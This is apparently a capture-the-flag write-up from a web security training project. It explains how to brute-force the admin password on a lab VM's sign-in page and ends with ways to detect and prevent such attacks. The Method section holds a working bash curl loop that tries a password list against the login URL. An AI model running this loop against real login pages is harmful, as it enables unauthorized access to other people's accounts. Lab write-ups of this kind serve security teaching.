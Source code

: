 # Bruteforce (member) 🔨 <!-- omit in toc -->

```txt
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```

- [Location 🗺️](#location-️)
- [Vulnerability ⚔️](#vulnerability-️)
- [Method 🧾](#method-)
- [Tools & References 🧰](#tools--references-)
- [Fix 🔧](#fix-)
  - [How To Detect Brute Force Attack](#how-to-detect-brute-force-attack)
  - [How To Prevent Brute Force Attack](#how-to-prevent-brute-force-attack)

## Location 🗺️

'http://\<ip-address>:80/?page=signin'

## Vulnerability ⚔️

Brute-force attacks are often used for attacking authentication and discovering hidden content/pages within a web application. These attacks are usually sent via GET and POST requests to the server. In regards to authentication, brute force attacks are often mounted when an account lockout policy is not in place.

## Method 🧾

When one opens that `<ip-address>`, you are greeted by a `SIGN IN` button. When you click on it, you will notice a login page with the Bot from that one movie/book.

You wish to gain elevated priviledges so you will want to try log in as an admin. You will see when you analyse the code that the form uses a GET method and names its two inputs as username & password respectively:

```html
<td style="vertical-align:middle;">
  <form action="#" method="GET">
  <input type="hidden" name="page" value="signin">
    Username:<input type="text" name ="username" style="width:100%;">
</td>
</tr>
<tr style="background-color:transparent;border:none;">
  <td style="vertical-align:middle;">
    Password:<input type="password" name ="password" style="width:100%;" AUTOCOMPLETE="off">
  </td>
</tr>
```

So the plan is to `spam` the URL over and over until the correct password is accepted. This is done via trying a list of passwords and seeing which one is eventually accepted. Here is the code:

```bash
for i in ${password[@]}; do
    if curl --silent -X POST "http://${ip}/index.php?page=signin&username=admin&password=${i}&Login=Login#" | grep "flag";
    then
        echo -e "\nPassword is: $i"
        curl -o sinkosi.html -X POST "http://${ip}/index.php?page=signin&username=admin&password=${i}&Login=Login#"
        exit 1
    fi
done
echo -e "\nPassword is not in list\n"
```

When the password is successfully found it will be printed to the terminal and a file sinkosi.html will be created. Open the html file, and the flag will be there.

*Alternative:* Use the retrieved password printed on the terminal and login directly on the VM.

## Tools & References 🧰

- [Wikipedia - Most Common Passwords](https://en.wikipedia.org/wiki/List_of_the_most_common_passwords)
- [Security Padawan](http://securitypadawan.blogspot.com/2012/04/using-curl-to-brute-force-http-login.html)
- [CompariTech](https://www.comparitech.com/blog/information-security/brute-force-attack/)

## Fix 🔧

Two Steps

### How To Detect Brute Force Attack

- Multiple failed login attempts from the same IP address. Although, this could be a result of a proxy server being used by a large organization.
- Login attempts with multiple usernames from the same IP address. Again, this could simply be from a large organization.
- Multiple login attempts for a single username coming from different IP addresses. This could also be a single person using a proxy.
- An unusual pattern of failed login attempts, for example, following a sequential alphabetical or numerical pattern.
- An abnormal amount of bandwidth being used after a successful login attempt. This could signal an attack designed to steal resources.

### How To Prevent Brute Force Attack

- Utilizing or requiring strong passwords
- Allowing a limited number of login attempts
- Employing the use of CAPTCHAs
- Setting time delays between attempts
- Asking security questions
- Enabling or requiring two-factor authentication
- Using multiple login URLs
- Tricking the attack software (fake login 😆)
